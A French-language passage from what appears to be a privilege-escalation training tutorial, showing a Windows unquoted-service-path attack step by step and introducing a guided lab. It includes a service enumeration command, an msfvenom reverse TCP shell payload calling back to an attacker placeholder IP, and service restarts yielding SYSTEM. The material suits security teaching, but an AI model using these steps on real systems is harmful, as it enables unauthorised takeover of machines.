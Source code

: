 6. Vous avez maintenant un accès root au serveur Linux.

#### Partie 2: Escalade Windows via service vulnérable

1. Depuis le serveur Linux compromis, vous découvrez des identifiants pour un serveur Windows dans le réseau interne.

2. Vous vous connectez au serveur Windows via RDP ou WinRM en tant qu'utilisateur standard.

3. Énumération rapide des services :
   ```powershell
   wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
   ```

4. Vous identifiez un service avec un chemin non cité :
   ```
   VulnService  C:\Program Files\Vulnerable Service\service.exe
   ```

5. Vérification des permissions sur le répertoire :
   ```powershell
   icacls "C:\Program Files\Vulnerable Service"
   # BUILTIN\Users:(M)
   ```

6. Création d'un exécutable malveillant :
   ```powershell
   # Sur la machine attaquante, créer un payload
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o Program.exe
   
   # Transférer le fichier sur la cible
   # Placer le fichier à C:\Program.exe
   ```

7. Redémarrage du service vulnérable :
   ```powershell
   sc stop VulnService
   sc start VulnService
   ```

8. Vous recevez un shell SYSTEM sur votre listener.

9. Vérification des privilèges :
   ```powershell
   whoami
   # NT AUTHORITY\SYSTEM
   ```

Ce scénario démontre comment, en moins d'une heure, vous pouvez passer d'un accès initial à des privilèges élevés sur deux systèmes différents en exploitant des configurations incorrectes courantes.

## 6. Mini-lab guidé (90 minutes)

Ce mini-lab vous permettra de mettre en pratique les techniques d'escalade de privilèges sur des environnements Ubuntu 22.04 et Windows 10. Les exercices sont conçus pour être réalisables en 90 minutes et couvrent plusieurs vecteurs d'attaque courants.

